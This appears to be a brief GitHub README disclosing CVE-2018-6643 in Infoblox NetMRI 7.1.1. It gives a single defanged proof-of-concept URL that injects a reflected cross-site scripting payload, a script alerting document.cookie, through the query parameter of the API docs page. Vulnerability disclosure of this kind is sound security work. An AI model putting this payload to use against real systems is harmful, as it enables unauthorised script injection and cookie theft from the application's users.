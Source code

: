 # CVE-2018-6643
CVE-2018-6643 Infoblox NetMRI 7.1.1


<code>hxxp::/xxx.abc/api/docs/index.php?query=555"><script>alert(document.cookie)<2fscript></code>
